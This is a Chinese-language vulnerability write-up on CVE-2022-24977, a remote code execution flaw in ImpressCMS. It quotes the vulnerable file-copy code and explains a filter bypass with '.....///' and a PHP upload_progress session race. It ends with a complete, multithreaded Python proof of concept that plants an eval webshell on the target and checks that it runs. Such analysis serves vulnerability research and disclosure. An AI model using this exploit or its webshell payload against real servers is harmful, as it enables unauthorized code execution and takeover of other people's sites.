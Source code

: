 - [CVE-2022-24977 ImpressCMS 远程代码执行](#cve-2022-24977-impresscms-远程代码执行)
	- [影响版本](#影响版本)
	- [环境搭建](#环境搭建)
	- [原理分析](#原理分析)
		- [任意文件复制](#任意文件复制)
		- [upload_progress](#upload_progress)
		- [利用思路](#利用思路)
		- [POC](#poc)
	- [参考](#参考)
# CVE-2022-24977 ImpressCMS 远程代码执行
## 影响版本
version < 1.4.2 pre-release
version < v2.0.0 alpha 11
## 环境搭建
`docker pull ghcr.io/impresscms/impresscms/nginx-php-mysql:v2.0.0_alpha10`
## 原理分析
漏洞思路在于利用类似于copy等函数能将一个文件复制到另一个路径时的利用思路.
### 任意文件复制
在processImage.php中有如下代码
```php
$action = $_REQUEST["action"]; $fileInfo = pathinfo($imageName); $extension = $fileInfo['extension']; switch ($action) {
	case "undo":  // This is actually revert now, as only revert is supported
		if (file_exists($origName)) {
			unlink($imageName); copy($origName, $imageName); }
		break; case "save":  // Copy working image back to original
		copy($imageName, $origName); break; case "resize": // additional required params: w, h
```
其中的copy函数会将`$origName`文件复制到`$imageName`路径下,而这两个参数都是从$REQUEST数组中取得,在之前对两个路径都有一次过滤用来防止路径穿越,过滤代码如下
```php
$imageName = str_replace(array("../", "./"), "", $_REQUEST['imageName']); 
$origName = str_replace(array("../", "./"), "", $_REQUEST['origName']);
```
但该过滤可以被绕过,当传入`.....///`时,过滤结果为`../`仍然可以造成目录穿越.
![](1.png)
替换过程如下
.....///
...~~../~~//
..~~./~~/
../
导致现在可以复制系统中任意一个已存在的文件到任意位置,且无后缀限制.一般情况可以考虑利用上传功能上传一个.png图片马,再利用该漏洞将图片马修改后缀为php来GetShell。
### upload_progress
更通用的方法是利用upload_progress和时间竞争来写入WebShell.
php-session选项:
1. session.save_path , session文件存放路径,常见默认路径:
```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```
2. session.upload_progress.cleanup = on,默认on,上传结束后立刻清空临时文件.
3. session.use_strict_mode =0 ,允许用户自定义Session ID,即生成的session 文件名字可以在cookie中指定.
4. session.auto_start：如果开启这个选项，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下,这个选项都是默认关闭的。


在php 5.4之后支持upload_progress功能,当 session.upload_progress.enabled 选项开启时(默认开启),PHP 能够在每一个文件上传时 监测上传进度。这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态。
同时如果在上传文件时提供了PHP_SESSION_UPLOAD_PROGRESS变量的话那么会自动初始化Session,生成Session文件,该Session文件包含了上传文件的进度信息,同时其中的`PHP_SESSION_UPLOAD_PROGRESS.name`内容可以由用户可控.(还有一种情况是对phpinfo()页面发送文件上传包也会生成session文件)。

### 利用思路
利用upload_progress特性,发送带PHP_SESSION_UPLOAD_PROGRESS变量的上传包,因为session.use_strict_mode默认开启,可以同时指定生成的Session文件名称(如sess_poctest),因为文件内容会被立刻清空,所以需要一边一直发包来生成含有webshell的文件(或者上传大文件)一边利用任意文件复制来将该session文件移动到web目录下并修改文件后缀为.php即可。

### POC
```python
import sys
import string
import requests
from multiprocessing.dummy import Pool as ThreadPool
if len(sys.argv)<3:
    print('python '+sys.argv[0]+' http://localhost 1')
    print('python '+sys.argv[0]+' http://localhost 2')
    exit()
HOST = sys.argv[1]
PATH = '/editors/CKeditor/ceditfinder/imageeditor/processImage.php'
sess_name = 'letspwnimpressCMS'
headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}
payload = '<?=eval($_GET[a]);exit;//'
def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'A' + payload + 'A'
    }
    while 1:
        fp = open('/etc/hosts', 'rb')
        r = requests.post(HOST+PATH, files={'f': fp}, data=data, headers=headers)
        fp.close()
def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    while 1:
        url = HOST+PATH+'?origName=.....///.....///.....///.....///uploads/aa.php&imageName=/var/lib/php/sessions/sess_letspwnimpressCMS&action=save'
        r = requests.get(url, headers=headers)
        c = r.content
        url2 = requests.get(HOST+'/uploads/aa.php?a=echo%20%2799999999999999999999999999999%27;copy(%27aa.php%27,%27bb.php%27);')
        if('99999999999999999999999999999' in url2.text):
            print('[+] done!')
            print('[!] Check '+HOST+'/uploads/bb.php?a=phpinfo();')
            exit()

if sys.argv[2] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```
## 参考
https://r0.haxors.org/posts?id=8  
https://xz.aliyun.com/t/9545#toc-4  
https://blog.orange.tw/2018/10/  